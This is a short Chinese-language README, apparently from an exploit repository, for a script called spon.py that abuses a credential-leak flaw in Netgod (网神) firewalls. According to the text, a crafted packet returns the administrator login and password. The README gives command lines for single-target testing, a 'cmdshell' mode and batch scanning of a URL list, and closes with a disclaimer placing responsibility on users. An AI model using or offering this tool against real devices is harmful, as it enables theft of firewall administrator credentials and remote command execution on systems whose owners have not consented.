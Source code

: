 # 网神防火墙用户登录账号泄露漏洞
网神防火墙用户账号信息泄露漏洞，通过构造特定数据包，获取防火墙管理员登录的账号密码
![](./vuln.jpg)

## 工具利用

python spon.py -u http://127.0.0.1:1111 单个url测试

python3 spon.py -c http://127.0.0.1:1111 cmdshell模式

python3 spon.py -f url.txt 批量检测




## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
